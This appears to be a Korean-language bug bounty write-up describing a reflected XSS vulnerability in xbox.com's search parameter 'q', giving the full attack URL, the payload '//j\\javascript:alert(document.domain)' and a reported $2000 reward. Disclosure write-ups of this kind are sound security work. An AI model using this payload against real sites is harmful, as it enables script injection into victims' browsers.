 **최종 URL:**

```
https://www.xbox.com/en-us/search?q=%2F%2Fj%5C%5Cjavascript%3Aalert%28document.domain%29
```

![The Discovery](/assets/img/2024-06-20-DiscoveringaReflectedXSSVulnerabilityMyJourneyintoMicrosoftsXboxcom_0.png)

# 발견하기

<div class="content-ad"></div>

**유출된 XSS 취약점**

Xbox의 메인 도메인(xbox.com)에서 반사형 크로스사이트 스크립팅(XSS) 취약점을 발견했습니다. 반사된 XSS 공격은 악의적인 스크립트가 웹 응용 프로그램에서 피해자의 브라우저로 반사될 때 발생합니다.

취약점 상세 정보:

- 제목: Xbox.com의 반사형 XSS
- 취약한 매개변수: q
- 페이로드: `//j\javascript:alert(document.domain)`

<div class="content-ad"></div>

### 예이이이이 보너스: 2000달러!
